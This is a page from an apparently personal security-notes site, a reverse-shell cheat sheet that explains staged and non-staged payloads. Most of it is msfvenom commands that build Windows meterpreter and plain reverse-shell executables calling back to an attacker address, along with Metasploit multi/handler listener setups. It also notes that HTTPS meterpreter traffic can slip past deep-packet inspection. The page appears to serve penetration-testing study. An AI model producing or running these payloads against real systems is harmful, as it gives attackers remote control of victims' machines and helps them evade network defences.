

repository: gandhi-taha/security · page: initial_access/reverse_shell/index.html · generator: mkdocs

# Reverse-shells

This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:  
[https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Msfvenom

There is an important difference between non-staged and staged payload. A **non-staged** shell is sent over in one block. You just send shell in one stage. This can be caught with metasploit multi-handler. But also with netcat.

**staged** shells send them in turn. This can be useful for when you have very small buffer for your shellcode, so you need to divide up the payload. Meterpreter is a staged shell. First it sends some parts of it and sets up the connection, and then it sends some more. This can be caught with metasploit multi-handler but not with netcat.

### Windows

#### Meterpreter

**Standard meterpreter**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
```

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

**Meterpreter HTTPS**

It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections.

```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.101 LPORT=443 -f exe -o met_https_reverse.exe
```

#### Non-staged payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

#### Staged payload

```
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

This must be caught with metasploit. It does not work with netcat.

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```
